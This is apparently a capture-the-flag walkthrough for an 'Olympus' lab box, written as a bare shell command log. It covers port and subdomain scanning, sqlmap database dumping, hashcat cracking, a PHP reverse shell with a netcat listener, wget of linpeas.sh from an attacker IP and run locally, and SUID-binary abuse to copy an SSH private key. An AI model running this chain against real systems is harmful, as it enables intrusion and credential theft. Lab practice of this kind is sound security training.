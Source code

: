 # Olympus - Medium

```shell
nmap -T4 -p- -A -Pn -v olympus.thm

feroxbuster -u http://olympus.thm -w /usr/share/wordlists/dirb/common.txt -x php,html,bak,js,txt,json,docx,pdf,zip,aspx,sql,xml --extract-links --scan-limit 2 --filter-status 400,401,404,405,500

#subdomain enum
sudo wfuzz -c -f sub-fighter -u "http://olympus.thm" -H "Host: FUZZ.olympus.thm" -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 50

#add 0 char filter
sudo wfuzz -c -f sub-fighter -u "http://olympus.thm" -H "Host: FUZZ.olympus.thm" -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 50 --hh 0

cmseek

#check for sqli in webpage
#save burp suite request

sqlmap -r olympus.req --dbs

sqlmap -r olympus.req -D olympus --dump-all

hashcat -a 0 -m 3200 unsaltedhash.txt /usr/share/wordlists/rockyou.txt

#login to the subdomain found
#send reverse shell on chat

sqlmap -r olympus.req -D olympus --dump -T chats --fresh-queries
#updated chats table
#includes random name for php shell file

nc -nvlp 4444
#setup listener
#we get reverse shell by visiting the randomly named file on uploads folder

id
#www-data

python3 -c 'import pty;pty.spawn("/bin/bash")'

cd /tmp

#setup python http server in attacker machine

wget http://10.14.31.212:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

ls -la /usr/bin/cputils

/usr/bin/cputils
#copies a file to another file

ls -la /home/zeus
#this has a .ssh directory
#we can copy private key

/usr/bin/cputils
```